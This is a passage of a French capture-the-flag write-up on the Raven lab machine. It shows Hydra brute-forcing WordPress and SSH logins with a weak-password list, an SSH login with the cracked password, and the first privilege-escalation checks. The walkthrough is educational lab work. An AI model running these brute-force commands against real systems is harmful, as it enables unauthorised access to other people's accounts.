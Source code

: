 ```console
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "billy" - 498 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "6666" - 499 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "albert" - 500 of 500 [child 5] (0/0)
1 of 1 target completed, 0 valid passwords found
```

Pas de chance pour WordPress. Et pour SSH ? 

```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.105 ssh -t 4
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

--snip--

[DATA] attacking ssh://192.168.56.105:22/
[22][ssh] host: 192.168.56.105   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
```

Bingo, nous disposons d'un shell sur le serveur !
Mais au fait, qui est ce Michael ? Il ne figure pas dans le staff du site vitrine. Bizarre...

```console
root@blinils:~# ssh michael@192.168.56.105
michael@192.168.56.105's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.

michael@Raven:~$ id; uname -a;
uid=1000(michael) gid=1000(michael) groups=1000(michael),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux

michael@Raven:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for michael: 
Sorry, user michael may not run sudo on raven.
```
